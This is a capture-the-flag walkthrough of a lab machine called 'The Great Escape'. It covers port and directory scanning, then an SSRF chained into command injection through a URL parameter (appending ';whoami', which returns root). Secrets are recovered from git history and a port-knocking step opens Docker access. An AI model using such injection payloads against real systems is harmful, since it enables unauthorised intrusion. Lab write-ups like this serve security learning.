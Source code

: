 # The Great Escape

## Enumeration

### Port Scan

The first thing we need to do with this target is enumerate it. To start, we will run an `NMAP` scan in an attempt to discover open ports. The following command will conduct an "Aggressive" scan on the target, including traceroute, default scripts, all ports, OS identification, etc. 

Command:

```bash
nmap -A -n -T5 -p- $TARGET
```

Output:

```bash
Nmap scan report for 10.10.211.81
Host is up (0.095s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh?
| fingerprint-strings: 
|   GenericLines: 
|_    x7(1"197=iSKx3na=i3w*f
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
80/tcp open  http    nginx 1.19.6
| http-robots.txt: 3 disallowed entries 
|_/api/ /exif-util /*.bak.txt$
|_http-server-header: nginx/1.19.6
|_http-title: docker-escape-nuxt
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port22-TCP:V=7.91%I=7%D=10/2%Time=6339EC53%P=x86_64-pc-linux-gnu%r(Gene
SF:ricLines,18,"x7\(1\"197=iSKx3na=i3w\*f\r\n");
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 - 5.4 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops

TRACEROUTE (using port 554/tcp)
HOP RTT       ADDRESS
1   78.20 ms  10.6.0.1
2   ... 3
4   146.41 ms 10.10.211.81

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Oct  2 15:57:10 2022 -- 1 IP address (1 host up) scanned in 269.25 seconds

```

### Site Enumeration

Now that we see that port 80 is open and this machine is hosting a webserver, we should enumerate the directories and see if there is anything interesting to be found. This can be accomplished using `Gobuster`.  For this scan, `raft-large-directories-lowercase.txt` was used as the wordlist. We need to specify the flag `-b` with codes `200,404,503` because of the behavior of the website.

Command:

```bash
gobuster dir -u http://$TARGET/ -w <path_to_wordlist> -t <number_of_threads> -b 503,200,404
```

Unfortunately, the results do not show much. The only endpoint discovered by `Gobuster` is `/api`. This low number of results is because the server responds with a `503` status code if too many requests are sent to it in a short amount of time. 

The next step is to see if there is a `robots.txt` file. Going to `http://$TARGET/robots.txt` reveals the following information:

```bash
User-agent: *
Allow: /
Disallow: /api/
# Disallow: /exif-util
Disallow: /*.bak.txt$
```

What sticks out here is the `/*.bak.txt$` entry. This means there are backup text files present on the server. Going to `http://$TARGET/exif-util.bak.txt` reveals the source of `/exif-util` which, in turn, reveals a new location: `/api-dev-backup:8080/exif` (this will come in handy later on). 

This script show us what the site is doing when we submit a POST request to `/exif-util`:

```js
try {
        const response = await this.$axios.$get('http://api-dev-backup:8080/exif', {
          params: {
            url: this.url,
          },
        })
        this.hasResponse = true
        this.response = response
      } catch (err) {
        console.log(err)
        this.$buefy.notification.open({
          duration: 4000,
          message: 'Something bad happened, please verify that the URL is valid',
          type: 'is-danger',
          position: 'is-top',
          hasIcon: true,
        })
      }
}
```


What is happening here is, the site takes the `url` parameter we pass to it, and passes it as a `url` parameter to `api-dev-backup:8080/exif`, but it only allows valid URLs to be passed. This opens the site up to a Server Side Request Forgery attack (SSRF). If we pass `http://api-dev-backup:8080/exif` with a custom `url` parameter, we can get the site to make a malicious request on our behalf and gain Remote Code Execution (RCE).

To test this theory, an to gain more information, we can pass in the following route:

```
/api/exif/?url=http://api-dev-backup:8080/exif?url=
```

The response to is request (`http://$TARGET/$ROUTE`) returns the usage information for the `curl` command. This leads us to believe that this `url` parameter is being passed to the command line, opening up the target to RCE.

Return:

![RCE0](../media/pictures/the_great_escape_RCE0.png)

If we make `api-dev-backup:8080`'s `url` parameter `whoami`, we get `root` returned.

URL:

```bash
http://$TARGET/api/exif?url=http://api-dev-backup:8080/exif?url=127.0.0.1;whoami
```

Return:

![RCE1](../media/pictures/the_great_escape_RCE1.png)

If we view all the contents of the user's HOME (~) directory, we find there is a `.git` file present. With this file present, we can review the commit history of the application, potentially discovering sensitive information. There is also a `dev-note.txt` file present in the directory which holds an alleged SSH password.  

Home Dump:

![HomeDir](../media/pictures/the_great_escape_RCE2.png)

Looking at the git commit history, the flag and original dev note were removed in the second commit. The data is still present, however, in the git history. We can access it by viewing the first commit or the second commit. 

Access second commit:

```bash
git show <commit_hash>
```

This reveals some ports to knock to open the docker remote admin port, and a flag.

![GitFlag](../media/pictures/the_great_escape_RCE3.png)

## Custom Exploit (Golang)

To automate the exploitation of this machine, a golang program was written and can be found [here](exploit.go).  This program extracts two flags and opens up a closed port using a technique known as `Port Knocking`. After the program has successfully executed, the user can execute Docker commands on the target machine and gain access to the root file system and final flag.

## Screenshots

Exploit Run:

![exploitRun](../media/pictures/the_great_escape_auto1.png "Exploit Run")